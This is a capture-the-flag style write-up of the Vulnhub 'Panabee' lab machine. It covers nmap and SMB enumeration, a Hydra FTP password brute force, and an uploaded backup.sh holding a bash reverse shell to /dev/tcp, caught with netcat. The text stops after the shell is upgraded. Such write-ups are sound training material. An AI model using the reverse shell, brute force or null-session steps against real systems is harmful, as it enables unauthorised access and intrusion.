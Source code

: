 ```yaml
---
title: Vulnhub - Panabee
description: My writeup on Panabee box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://pbs.twimg.com/profile_images/634463579433910272/qT21z1iG.png)

Hi all, let's pwn it! :)

You can find the machine there > [Panabee](https://www.vulnhub.com/entry/panabee-1,502/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.8                
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 14:04 EEST
Nmap scan report for panabee.zte.com.cn (192.168.1.8)
Host is up (0.0011s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:6C:D9:CE (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.36 seconds
$ nmap -p 21,22,25,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 14:04 EEST
Nmap scan report for panabee.zte.com.cn (192.168.1.8)
Host is up (0.00032s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: panabee, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=panabee
| Subject Alternative Name: DNS:panabee
| Not valid before: 2020-06-14T18:25:48
|_Not valid after:  2030-06-12T18:25:48
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 00:0C:29:6C:D9:CE (VMware)
Service Info: Host:  panabee; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -4s
|_nbstat: NetBIOS name: PANABEE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-12T11:05:08
|_  start_date: N/A
```

port 445 (SMB) seems interesting, let's enumerate it. 

SMB(server message block) is a protocol for sharing files.

First of all we have to list the shares, i always like to use the `smbclient` utility a client to access SMB shares.

```
$ smbclient -L //$ip    
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	note            Disk      Daily works
	IPC$            IPC       IPC Service (panabee server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

`note` share seems interesting, let's connect to it using null session (without a password or sending a blank password):

![](https://i.imgur.com/DqT69ZV.png)

`note.txt` provide us some useful info:

```
$ cat note.txt 
Dear goper, 

I'll just leave it here as a note,

Sorry for the late response,
The server will now `backup` you files in your home dir,
go ahead and backup anything you like, server will do it for you.

Please delete this note once you've read for security measure
```

```
1) username goper
2) backup your files in your home dir
```

Let's do FTP brute force using username `goper`:

```
$ hydra -l goper -P /usr/share/wordlists/rockyou.txt $ip ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-12 14:39:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.8:21/
[STATUS] 264.00 tries/min, 264 tries in 00:01h, 14344135 to do in 905:34h, 16 active
[21][ftp] host: 192.168.1.8   login: goper   password: spiderman
1 of 1 target successfully completed, 1 valid password found
```

Perfect. Let's connect to FTP & we can create a `backup.sh` file with a reverse shell in.

```
$ touch backup.sh
$ nano backup.sh 
$ cat backup.sh 
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.16/5555 0>&1
```

Let's upload it.

```
$ ftp $ip
Connected to 192.168.1.8.
220 (vsFTPd 3.0.3)
Name (192.168.1.8:root): goper
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put backup.sh
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
55 bytes sent in 0.00 secs (271.2674 kB/s)
ftp> chmod 777 backup.sh
200 SITE CHMOD command ok.
```

We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...
goper@panabee:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
goper@panabee:~$ ^Z
[1]+  Stopped                 nc -lvp 5555
$ stty raw -echo
$ fg
goper@panabee:~$ 
```

